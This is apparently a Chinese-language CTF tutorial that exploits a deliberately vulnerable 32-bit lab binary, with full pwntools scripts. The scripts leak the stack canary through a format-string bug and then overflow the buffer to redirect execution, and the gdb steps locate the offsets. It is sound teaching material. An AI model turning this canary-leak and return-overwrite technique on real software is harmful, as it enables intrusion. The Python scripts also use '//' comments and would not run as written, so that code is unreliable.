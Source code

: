 ﻿简介
“pwn"这个词的源起以及它被广泛地普遍使用的原因，源自于魔兽争霸某段讯息上设计师打字时拼错而造成的，原先的字词应该是"own"这个字，因为 ‘p’ 与 ‘o’ 在标准英文键盘上的位置是相邻的，PWN 也是一个黑客语法的俚语词，是指攻破设备或者系统。发音类似"砰”，对黑客而言，这就是成功实施黑客攻击的声音，而在ctf比赛里，pwn是对二进制漏洞的利用

下载这个github库，进入10文件夹
```
https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101
```
# 获取文件信
使用checksec工具可以查看程序更详细的信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/c5ee91a3f5d34d7a9ad07ca0210cee39.png)

从上到下依次是:
```
32位程序
部分RELRO，基本上所有程序都默认的有这个
开启了栈保护
启用了数据执行防护，我们不能在堆栈中执行代码
没有启用pie防护
```
Canary是为了避免程序缓冲区溢出的一个保护机制，他会在堆栈中插入一个值，当函数返回时，程序会检查值是否被更改，用来确定程序是否发生了缓冲区溢出

查看程序源代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/713af36165484279982d2904888c4ee4.png)

```
#include <stdio.h>
#include <string.h>

void hacked() {   //自定义hacked模块
    puts("Wait, how did you get in here?!");   //输出内容
}

void vuln() {   //自定义vuln模块
    char buffer[64];  //定义buffer变量，缓冲区为64个字符

    puts("You'll never beat my state of the art stack protector!");   //输出内容
    gets(buffer);   //获取我们的输入
    printf(buffer);   //输出我们的输入

    puts("\nWho said gets() is dangerous? Good luck with your BOF attack :P");   //输出字符
    gets(buffer);   //再次获取输入
}

int main() {
    vuln();   //调用vuln模块
}
```


我们需要让程序执行hacked模块的内容，就要控制程序的返回地址，然后我们用ghidra打开程序，去到main函数的地方

![在这里插入图片描述](https://img-blog.csdnimg.cn/8f22cb3997f646309a7c32423553a38e.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/0023823974d148d48a7b435443a3bf7a.png)

这里就是canary的代码，如果canary值改变了，就会触发防护

# fuzz
因为程序执行了printf函数，我们可以写一个小脚本，让程序泄露堆栈中的值


```
from pwn import *

elf = context.binary = ELF('./canary', checksec=False)   //获取程序详细信息
for i in range(100):   //测试100个地址
    try:
        p = process(level='error')   //创建进程
        p.sendline('%{}$p'.format(i).encode())   //发送指定的字符串，将第n个指针打印为字符串
        p.recvline()   //接收程序输出
        result = p.recvline().decode()   
        if result:   //如果堆栈中的值不为空就输出
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

多运行几次脚本，可以看到这里泄露的很多值

![在这里插入图片描述](https://img-blog.csdnimg.cn/99dac3ca676f44bc985919c944554108.png)

# 动态调试

使用gdb打开程序，然后查看程序里调用的函数
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f3c4a52071dc4311a8b819dcdd94822d.png)

然后查看vuln函数的汇编代码
```
disassemble vuln
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3da3e1657a04123904c8459a7da4816.png)

我们在调用printf函数的地方下一个断点，然后运行程序
```
b *0x0804921f
run
```

输入canary查看canary的偏移量


![在这里插入图片描述](https://img-blog.csdnimg.cn/6d8de25307ae448f9f68d32886534eaf.png)

然后我们看看堆栈里的值
```
x/100x $esp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac91648330bb4ae6a4def4209af5853c.png)


从第一个开始，canary的偏移量在第24个，但是偏移量是从0开始的，所以在第23个，重新运行刚刚那个fuzz脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/fe636d45adbc458b99732b141d3a2511.png)

堆栈中第23个就是canary的值，我们保证让他不变即可

# pwntools
![在这里插入图片描述](https://img-blog.csdnimg.cn/2ad748d67bbb451f95a698e2b5e587bd.png)

通过ghidra分析程序可以知道，buffer的缓冲区是64个字符

![在这里插入图片描述](https://img-blog.csdnimg.cn/ec70649ef1b6413ba4d77cb893eb5e61.png)

在汇编界面，我们可以看到buffer的缓冲区区间，是64个字符，但是这里的栈有-0x50的空间，我们转换一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b778ba14bb34347a999f889f8c3f792.png)

也就是我们要覆盖到程序的返回地址，buffer已知的缓冲区区间64+canary的值4+12个垃圾字符=80
```
64 + 4 + 12 = 80
垃圾字符 + canary + 垃圾字符 + hacked函数地址
```
然后我们就可以开始写脚本了

```
from pwn import *

exe = './canary'
elf = context.binary = ELF(exe, checksec=False)   //自动获取程序的详细信息

io = process("./canary")   //启动程序
offset = 64   //buffer函数的缓冲区区间
io.sendlineafter(b'!', '%{}$p'.format(23).encode())  //获取我们刚刚fuzz泄露的第23个canary的值
io.recvline()   //获取程序输出
canary = int(io.recvline().strip(), 16)  //将泄露的地址以整数形式存入canary变量中

payload = flat([   
    offset * b'A',   //buffer函数的缓冲区区间
    canary,  //canary的值
    12 * b'A',   //覆盖到返回指针
    elf.symbols.hacked  //跳转到hacked函数地址
])

io.sendlineafter(b':P', payload)   //当程序输出：P时发送payload
io.interactive()   //获取交互
```
运行脚本，成功破解程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/1edd306fb4934b3ba0b7f8ce591fbf84.png)




